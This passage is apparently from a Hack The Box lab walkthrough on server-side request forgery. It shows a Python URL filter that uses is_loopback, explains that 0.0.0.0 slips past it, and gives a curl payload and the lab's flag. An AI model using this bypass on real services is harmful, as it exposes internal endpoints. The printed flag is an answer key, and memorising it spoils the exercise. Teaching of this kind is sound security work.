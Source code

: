 The `download_file` function (lines 30-46) performs some checks on the passed URL and then calls `check_domain` against the parsed domain (line 32):

Code: python

```python
def download_file(url):
    scheme = urlparse(url).scheme
    domain = urlparse(url).hostname

    if not domain or not scheme:
        raise Exception('Malformed URL')
        
    if scheme not in ['http', 'https']:
        raise Exception('Invalid scheme')

    if not check_domain(domain):
        raise Exception('URL not allowed')

    # no redirects
    r = requests.get(url, allow_redirects=False)

    return r.text
```

The `check_domain` (lines 49-59) function returns `True` only if [is\_loopback](https://docs.python.org/3/library/ipaddress.html#ipaddress.IPv4Address.is_loopback) returns `False` on the IP address from the resolved domain:

Code: python

```python
def check_domain(domain):
    try:
        # resolve domain
        ip = socket.gethostbyname(domain)

        # prevent access to localhost
        return not ipaddress.ip_address(ip).is_loopback
    except:
        pass

    return False
```

However, `is_loopback` does not consider `0.0.0.0` as a loopback address (which includes all IPv4 addresses on a local machine, including `127.0.0.1`). Therefore, students need to abuse this default behavior by sending a POST request with the `url` POST parameter having `0.0.0.0` (or `0` alone) for the domain and `/flag` for the path; students will attain the flag `HTB{3f313d989c51198a337bef64314ba77b}`:

Code: shell

```shell
curl -s -X POST http://STMIP:STMPO/ -d 'url=http://0.0.0.0/flag'
```
